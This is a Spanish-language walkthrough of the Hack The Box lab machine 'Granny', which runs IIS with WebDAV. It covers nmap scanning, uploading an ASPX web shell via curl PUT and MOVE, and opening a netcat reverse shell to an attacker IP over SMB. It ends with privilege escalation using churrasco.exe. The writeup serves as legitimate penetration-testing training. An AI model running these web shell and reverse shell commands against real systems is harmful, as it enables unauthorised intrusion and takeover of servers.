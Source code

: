 ```yaml
---
title: Granny - HTB Writeup
date: 2023-09-10 19:00:00 +0800
categories: [Ciberseguridad, Writeups, HTB]
tags: [Writeup, HTB, Penetration Testing, Ethical Hacking, Webdav, RFI]
image:
  path: /assets/img/post/granny/vishnu-mohanan-pfR18JNEMv8-unsplash.jpg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
---
```


Granny es una máquina de dificultad `Easy` en la plataforma **Hack The Box**

En esta máquina explotaremos una vulnerabilidad `Webdav` que nos permitirá llevar a cabo un `RFI` (Remote File Inclusion)

## **Reconocimiento**

Utilizaremos la herramienta `nmap` para listar los puertos abiertos en la máquina víctima:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.15 -oG allPorts
```

![img](/assets/img/post/granny/fc0e3620-808f-47be-b1f9-d096392af0ab.png)

Vemos que esta el puerto `80` abierto.

Vamos a realizar un escaneo de **servicios** y **versiones** corriendo por este puerto:

```bash
nmap -sCV -p80 10.10.10.15 -oN versions
```

![img](/assets/img/post/granny/772fc76a-3774-4bd5-baf7-7bbd0b259c64.png)

Gracias al conjunto de scripts básicos de reconocimiento que aplica el escaneo, podemos ver los tipos de peticiones que se pueden realizar en el servidor, además de que en el puerto `80` se ha detectado un `Webdav` además de un `IIS` (Servidor web que maneja solicitudes HTTP y HTTPS)

Si entramos en la web no vamos a ver nada relevante, ni que podamos usar:

![img](/assets/img/post/granny/76a-3774-4bd5-baf7-7bbd0b259c64.png)

## **Explotación**

Vamos a aprovechar una vulnerabilidad de `Webdav` que nos permite mediante `curl` subir archivos a la máquina víctima

Para ello vamos a intentar subir una **web shell** `(cmdasp.aspx)`

Primero copiaremos la **web shell** en la ruta actual

```bash
cp /usr/share/webshells/aspx/cmdasp.aspx ..
```

Posteriormente subiremos la **web shell** a la máquina víctima con curl:

```bash
curl -s -X PUT http://10.10.10.15/cmdasp.txt -d @cmdasp.aspx
```

> Subiremos el archivo en formato `.txt` ya que no podremos en formato `.aspx`

Una vez el archivo ya subido aprovecharemos el metodo `MOVE` para cambiar la extensión de la **web shell** y poder ejecutarla:

```bash
curl -s -X MOVE -H "Destination:http://10.10.10.15/cmdasp.aspx" http://10.10.10.15/cmdasp.txt
```

> Utilizaremos la cabecera `Destination` para modificar el archivo

Ahora si accedemos al archivo tendremos una shell en la que podremos ejecutar comandos:

![img](/assets/img/post/granny/c5fbbfb9-1184-44aa-b98e-2b6d3ab861b2.png)

Para conseguir una **reverse shell** nos copiaremos al archivo actual el `nc.exe`

```bash
cp /usr/share/SecLists/Web-Shells/FuzzDB/nc.exe .
```

Utilizaremos `impacket-smbserver` para establecer una conexión por `smb` y así poder compartir el archivo `nc.exe` con la máquina víctima

```bash
impacket-smbserver smbFolder $(pwd)
```

Por otra parte en la web shell ejecutaremos el siguiente comando para compartirnos una shell mediante `nc.exe`

```bash
\\10.10.14.5\smbFolder\nc.exe -e cmd 10.10.14.5 443
```

A su vez en nuestra máquina nos pondremos en escucha por el puerto `443`

```bash
rlwrap nc -nlvp 443
```

Y como vemos habremos conseguido acceso a la máquina:

![img](/assets/img/post/granny/20a75187-f421-4a7c-a021-284397c4291d.png)

Pero no tendremos acceso a los usuarios de la máquina por lo que no podremos ver las flags

## **Escalada de Privilegios**

Para listar los permisos del usuario ejecutaremos:

```bash
whoami /priv
```

![img](/assets/img/post/granny/92b4235d-30a4-4130-86c5-e1e67f582553.png)

El permiso que nos interesa es `SeImpersonatePrivilege`

> Este permiso es único en Windows, y permite a un usuario o proceso hacerse pasar por otro usuario o proceso

Si buscamos sobre la escalada de privilegios explotando este permiso nos llevará a <https://github.com/Re4son/Churrasco/raw/master/churrasco.exe> y descargaremos el ejecutable `churrasco.exe` *(xd)*

Utilizando el `impacket-smbserver` compartiremos el ejecutable con la máquina víctima

```bash
impacket-smbserver smbFolder $(pwd)
```

En la máquina víctima nos moveremos a `C:\WINDOWS\temp` y en esta ruta usaremos el comando:

```bash
copy \\10.10.14.5\smbFolder\churrasco.exe churrasco.exe
```

Y una vez copiado ejecutaremos `churrasco.exe`

```bash
churrasco.exe

/churrasco/-->Usage: Churrasco.exe [-d] "command to run"
```

Vemos la función del ejecutable, por lo que intentaremos conseguir una shell como `root`, así que deberemos usar `nc.exe`:

```bash
churrasco.exe "\\10.10.14.5\smbFolder\nc.exe -e cmd 10.10.14.5 443"
```

Y de nuevo nos pondremos en escucha con `nc` por el puerto `443`:

![img](/assets/img/post/granny/02314c0d-6e4f-4428-b151-05c1cb14f8dd.png)

Y ya tendremos acceso a la máquina como usuario privilegiado

Podremos ver ambas **flag** en el ``Desktop`` del ``usuario`` y del ``administrator``

*Espero que os haya gustado y servido, cualquier comentario es de mucha ayuda. Adios!*

